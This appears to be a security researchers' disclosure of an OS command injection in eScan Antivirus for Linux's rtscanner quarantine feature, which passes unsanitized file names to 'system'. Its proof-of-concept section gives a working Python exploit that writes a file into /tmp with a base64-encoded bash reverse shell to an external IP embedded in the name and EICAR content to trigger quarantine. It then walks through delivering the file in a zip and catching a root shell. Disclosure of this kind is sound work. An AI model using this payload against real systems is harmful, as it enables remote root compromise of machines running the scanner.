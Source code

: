 # Description and Impact
Escan Antivirus for Linux has real-time protection program `rtscanner` run as system service. This program has a OS Command injection vulnerability in quarantine file mechanism. An attacker can send crafted file and gain remote code execution with highest privilege as soon as crafted file writes into victim's disk.

**Researchers**:
- Nông Hoàng Tú `<tunh19@fpt.com>`
- Ngô Thu Hồng `<hongnt53@fpt.com>`

# Root-cause
1. `rtscanner` failed to quarantine a file that has name **>= 253** characters (max file name's length on Linux is 255). This program uses command `mv` to move file to quarantine folder.
2. `rtscanner` uses dangerous function `system` with unsanitized data.

![image_2025-01-18_11-08-53](https://github.com/user-attachments/assets/616d5977-31dd-4668-8ff1-478fde87d53e)


3. By default, `/tmp/` and `/home/` are being monitored

![image_2025-01-18_11-08-53 (2)](https://github.com/user-attachments/assets/32487a13-d54b-4cf1-8dd4-6b699b5a636f)


An attacker can send any malicious file with crafted file name. As soon as crafted file writes into these folders, quarantine mechanism executes and malicious code command is executed with system's privilege.

In demotration bellow, I sent compressed file that contains malicious file to victim's machine. By default, compressed files are not being scanned by real-time scanner. Malicious code executes as soon as user uncompress downloaded file.

![image_2025-01-18_11-08-53 (3)](https://github.com/user-attachments/assets/a824dc12-9007-40b3-aa92-f0c374f8aa7a)

*Important notes*:
- When decompress using `Extract here` feature, program `engrampa` extracts internal file into a folder if there's no folder. The format will be `<name of compressed file> <suffix>` where suffix is a number, like `(2)`, `(3)`. Meanwhile real-time scanner adds folder `<name of compressed file>` to **inotify**'s watch list. This is a logic bug in scanner's logic. Therefore, compressed file delivered to victim must contains internal folder that has the same name with zip file.
- Demotration shows malicious code execution when file is decompressed. In other attack scenarios, malicious code might be executed *as soon as crafted file is written into victim's system* without user's interactions.
- Servers that has file upload feature and eScan for Linux (configured to monitor uploaded files) are under great danger.

# Proof-of-concept
1. Create crafted file that executes bash redirection to make reverse shell. Python script:

```
MAX_LEN=253

# Payload to trigger reverse shell
# bash -c 'exec bash -i &>/dev/tcp/192.168.58.192/8888 <&1'
PAYLOAD=";echo YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTkyLjE2OC41OC4xOTIvODg4OCA8JjEnCg==|base64 -d|sh"
PREFIX="AA AA" # Doesn't really required. But it looks a little better
SUFFIX=" # "
CHUNK="A" * (MAX_LEN - len(PREFIX) - len(PAYLOAD) - len(SUFFIX))
NAME=PREFIX + PAYLOAD + SUFFIX + CHUNK

print("DEBUG: created file with len", len(NAME))

# Content to trigger quarantine action
CONTENT="X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*"

with open("/tmp/" + NAME, "w") as f:
    f.write(CONTENT)
```

2. Create compressed zip file that contain crafted file and move it to web server.

![image_2025-01-18_11-08-53 (4)](https://github.com/user-attachments/assets/0b9913a1-6aed-4038-a6fc-dbc63584c3ae)

![image_2025-01-18_11-08-53 (5)](https://github.com/user-attachments/assets/8e4aeb59-6a4c-4bdb-b4f5-10044a3ed383)


Attacker creates a listener and wait victim's download malicious file.

![image_2025-01-18_11-08-53 (6)](https://github.com/user-attachments/assets/02f103a8-3af4-412b-bccd-7daf825b9617)

3. Victim downloads zip file then extract

![image_2025-01-18_11-08-53 (7)](https://github.com/user-attachments/assets/30af1e4f-b7fa-4957-9224-0f4cb984b497)

![image_2025-01-18_11-08-53 (8)](https://github.com/user-attachments/assets/f7d942b0-ce28-4c72-9171-d5fd372b593d)


4. Attacker gains remote code execution

![image_2025-01-18_11-08-53 (9)](https://github.com/user-attachments/assets/25db100b-906b-4b5c-a1cb-1d3247b01893)

![image_2025-01-18_11-08-53 (10)](https://github.com/user-attachments/assets/5f63a189-b819-4119-a87a-98e625762f3d)


*Important note*: If crafted file is quarantined, change `MAX_LEN` in python script to 255.
